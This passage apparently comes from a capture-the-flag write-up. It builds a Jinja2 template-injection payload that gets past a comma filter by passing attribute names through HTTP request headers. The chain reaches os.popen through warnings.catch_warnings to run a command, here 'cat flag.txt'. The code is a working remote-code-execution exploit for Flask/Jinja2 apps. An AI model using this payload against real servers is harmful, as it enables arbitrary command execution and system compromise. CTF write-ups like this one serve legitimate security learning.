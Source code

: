 In [Hacktricks jinja2 SSTI RCE](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) there are two ideas:

1. use `<class 'subprocess.Popen'>` to run shell (I did not get this to work as I could not call functions with multiple arguments since commas are blocked)
2. use `<class 'warnings.catch_warnings'>` to create an instance of the class then `._module.__builtins__['__import__']('os').popen("ls").read()`


So it seems like we have to do the far longer import os popen method:

```py
catch_warnings = f"({subclasses}|attr({getitem}))(240)" # <class 'object'>.__subclasses__().__getitem__(240) = <class 'warnings.catch_warnings'>
catch_warnings_instance = f"({catch_warnings})()" # <class 'warnings.catch_warnings'>()

_module = f"{request_headers}.get({three})" # request.headers.get("2") = "_module"
module = f"({catch_warnings_instance})|attr({_module})" # <class 'warnings.catch_warnings'>()._module = <module 'warnings' from '/usr/local/lib/python3.10/warnings.py'>

builtins_dunder = f"{request_headers}.get({four})" # request.headers.get("4") = "__builtins__"
builtins = f"{module}|attr({builtins_dunder})" # <class 'warnings.catch_warnings'>()._module.__builtins__

import_dunder = f"{request_headers}.get({five})" # request.headers.get("5") = "__import__"
import_func = f"({builtins}|attr({getitem}))({import_dunder})" # <class 'warnings.catch_warnings'>()._module.__builtins__.__getitem__("__import__") = <built-in function __import__>

os_str = f"{request_headers}.get({six})" # request.headers.get("6") = "os"
os = f"{import_func}({os_str})" # <built-in function __import__>("os") = <module 'os' (frozen)>

popen_str = f"{request_headers}.get({seven})" # request.headers.get("7") = "popen"
popen_func = f"{os}|attr({popen_str})" # <module 'os' (frozen)>.popen

cmd = f"{request_headers}.get({eight})" # request.headers.get("8") = our cmd
popen = f"{popen_func}({cmd})" # <module 'os' (frozen)>.popen(cmd)

read_str = f"{request_headers}.get({nine})" # request.headers.get("9") = "read"
popen_read = f"({popen}|attr({read_str}))()"  # <module 'os' (frozen)>.popen(cmd).read()

payload = "{{" + popen_read + "}}"

headers = {
    "Pragma": "0123456789",
    "Referer": "__getitem__",
    "Content-Type": "headers",
    "0": "__class__",
    "1": "__mro__",
    "2": "__subclasses__",
    "3": "_module",
    "4": "__builtins__",
    "5": "__import__",
    "6": "os",
    "7": "popen",
    "8": "cat flag.txt", # cmd
    "9": "read",
}
```
